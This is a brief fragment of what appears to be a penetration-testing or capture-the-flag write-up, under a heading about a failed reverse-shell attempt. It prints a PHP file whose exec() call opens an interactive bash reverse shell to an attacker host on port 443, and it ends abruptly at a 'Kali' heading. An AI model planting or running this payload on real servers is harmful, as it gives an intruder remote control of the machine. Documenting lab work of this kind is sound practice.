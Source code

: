 <figure><img src="../../.gitbook/assets/image (23) (5) (1).png" alt=""><figcaption></figcaption></figure>



## Reverse Shell

### Reverse Shell Failed Attempt

**revshell.php code**

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```

**Kali**
